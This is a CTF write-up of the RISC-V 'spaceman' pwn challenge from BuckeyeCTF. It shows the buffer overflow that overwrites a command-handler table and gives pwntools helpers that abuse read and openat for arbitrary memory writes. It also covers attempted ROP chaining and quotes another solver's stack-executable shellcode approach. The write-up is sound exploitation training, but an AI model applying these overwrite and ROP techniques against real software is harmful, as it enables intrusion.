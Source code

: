 I worked on this challenge for the entirety of the CTF. I mean I took a break from it for a little to do all of the beginner-pwn challenges so I could have at least contributed, but this was the real challenge I worked on. And to be honest, even though I didn't solve it after over 20 hours of working on it, I definitely learned a lot. 

Lets start by running checksec and file.

```
[*] '/home/papichulo/Desktop/ExploitDev/LiveCTF/BuckeyeCTF/spaceman-chal/spaceman'
    Arch:       riscv64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x10000)
    Stripped:   No
```

```
spaceman: ELF 64-bit LSB executable, UCB RISC-V, RVC, double-float ABI, version 1 (SYSV), statically linked, for GNU/Linux 4.15.0, with debug_info, not stripped
```

First of all, this challenge is very unique with the fact that this runs on the `RISC-V` architecture, which changes things up quite a bit. Also not just that, but the challenge is statically linked and it never calls system, so anything ret2libc/one_gadget related is out of the window (not that one gadget would have even worked because this is a different architecture).

Also before starting, I had to find out how to debug the program since it runs on a different architecture and GDB would crap itself. Anyways what I did is that I had to run the binary in QEMU and send it into a localhost port, and then send a gdb script to that port like so.

```python
import gdb

binary = "spaceman"

gdb.execute(f"file {binary}")
gdb.execute("set architecture riscv:rv64")
gdb.execute("target remote localhost:1234")
```

Anyways, looking at the program, the bug is here.

```c
   6   │ #define CMD_SIZE 0x10
   7   │ 
   8   │ char CMD_BUF[CMD_SIZE] = { 0 };
   9   │ 
  10   │ void handle_echo();
  11   │ void handle_dish();
  12   │ void handle_engines();
  13   │ void handle_shields();
  14   │ void handle_status();
  15   │ void handle_help();
  16   │ 
  17   │ struct {
  18   │     char *cmdName;
  19   │     void (*handler)();
  20   │ } CMD_HANDLERS[] = {
  21   │     "help", handle_help,
  22   │     "echo", handle_echo,
  23   │     "dish", handle_dish,
  24   │     "engines", handle_engines,
  25   │     "shields", handle_shields,
  26   │     "status", handle_status,
  27   │ };
  28   │ 
  29   │ void get_command() {
  30   │     memset(CMD_BUF, 0, CMD_SIZE);
  31   │     printf("COMMAND> ");
  32   │     if (!fgets(CMD_BUF, 0x20, stdin)) {
  33   │         exit(1);
  34   │     }
```

So the program creates a `0x10` sized chunk but then the `fgets()` call tries to put `0x20` bytes into the buffer, overwriting the first struct in `CMD_HANDLERS[]`. This means that overwriting `handle_help` with an address of our choice will let us run whatever function we want, and because the program is statically linked with `fnoPIE`, we will not need any leaks. Also, what I realized was that the registers at the time of calling the `handle` functions will be as goes: `a0` will always equal 0, `a1` is the string of our command in hex form, and `a2` will be the length of the command.

Now with this in mind, my [friend](https://github.com/SolarDebris) found that we can call `read()` on any address and whatever we put in `stdin` next, will be written there. The only problem is that the address is technically 3 bytes long (since there will be null bytes after that) and then because of that, we only overwrite 3 bytes at a time. 

So what I thought of doing was, finding a pointer whose value points to the address of another pointer, whose value points to the address of another pointer, whose value points to the address that we want to modify. And after a little while of looking for that in Ghidra, I finally found it.

```
0x8a488 => 0x8a2b8 => 0x8a518 => writeable memory
```

With this in mind, I created some helper functions. At the time when I tested it I accidentally ended the address in `b` insted of `8` so I thought there was something wrong with my function and I kind of made it a little boofed, but it worked and I was mostly busy on trying to get the flag and not on how well I made my functions. Anyways here they are:

```python
def write_three_bytes(io, p_addr, addr, data): 
    payload = b"A"*0x10 + p64(p_addr)
    payload += p64(e.sym["read"]) # make look up table point to anywhere
    
    sla(io, b"COMMAND>", payload)
    sla(io, b"COMMAND>", p64(addr))

    sl(io, data)
    
def write_data(io, pp_addr, p_addr, addr, data):
    # for some reason the function is being weird
    # so instead of fixing it I am just gonna add something to cope with it
    # spoken like a true programmer
    data = b"AAA\x00\x00" + data

    for i in range(int(len(data) / 3)):
        print(data[i * 3: i * 3 + 3])
        write_three_bytes(io, p_addr, addr, data[i * 3: i * 3 + 4])
        addr += 3

        write_three_bytes(io, pp_addr, p_addr, p32(addr))

```

After that, what we tried to do was write the address of the flag into memory and then call the `open_at()` function because the `param_2` is what is the char pointer.

```python
def open_at(io, p_addr, addr):
    payload = b"A"*0x10 + p64(p_addr)
    payload += p64(e.sym["openat"]) # make look up table point to anywhere
    
    sla(io, b"COMMAND>", payload)
    sla(io, b"COMMAND>", p64(addr))
```

After this we kind of got stuck, then what my friend thought to do was to start a ROP chain so that is what we did. Only problem is that ROP in RISC-V kind of sucks. For some reason, `ropper` won't even try to find gadgets and also, `ROPgadget` will not ever give us a `ret`, so after reading up a bit, I found that `c.jr ra` is the equivalent. So with that in mind, we started trying to construct ROP chains for the next few hours, and even got an [extra hand](https://github.com/Pwnut). 

This is where we got stumped, we tried a lot of things but none of them worked. One good thing that did come out of this though is that I started getting more and more comfortable reading a RISC-V manual throughout the process and started to learn a lot about the architecture. 

In the end, we were in the right path to the intended solution. We just needed more time to keep looking at ROP gadgets and to find what the author called, `the magic gadget`. 
EDIT: turns out ROPgadget did not even show us the gadget we needed. I actually am so pissed off about that now, this sucks.

One thing that I did find interesting though, was a specific person's solve. His username on Discord was `lobob-rondo` and he said what he did was and I quote "leak stack, call `__nptl_change_stack_perm` to make stack executable and shellcode". So what I found interesting was that, first ofall, you can leak the stack through `libc_environ`. But most importantly, THERE IS A FUNCTION THAT WILL CHANGE THE STACK TO BE EXECUTABLE!!!! LIKE WHAT????? WHY IS THAT THERE??????? 

Anyways that is a good thing to know for future CTFs. This challenge was very fun and I got quite a bit out of it. Overall great challenge!!!!

